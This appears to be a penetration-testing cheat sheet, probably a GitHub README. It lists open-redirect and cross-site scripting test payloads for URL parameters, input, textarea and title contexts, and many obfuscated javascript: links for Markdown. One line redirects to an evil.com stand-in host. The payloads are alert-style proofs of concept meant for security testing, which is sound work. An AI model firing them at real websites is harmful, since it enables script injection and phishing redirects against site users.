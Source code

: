 

- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- __`/?name=<iframe src=javascript:alert(1)>`__
- __`/?name=<object data="data:text/html,<script>alert(1)</script>"></object>`__
- __`/?name=<object data="data:text/javascript,<h1>test123"></object>`__
- __`/?name=<script src=data:text/javascript,alert(1337)></script>`__
- __`/?name="><h1><u/onmouseover=alert(1)>test123`__
- __`/?name=test123';alert(1);//`__
#### for "input" tag
- __`/?name=test123" onmouseover=aler(1);//`__

#### for <textarea>
- __`/?name=test123</textarea><img/src=x onerror=alert(2)>`__


#### for </title>
- __`/?name=test123</title><img/src=x onerror=alert(2)>`__


#### for markdown
- __`/?name=[test123](javascript://alert'')`__
- __`/?name=[test123](javascript:alert'')`__
```
[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
```
- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)

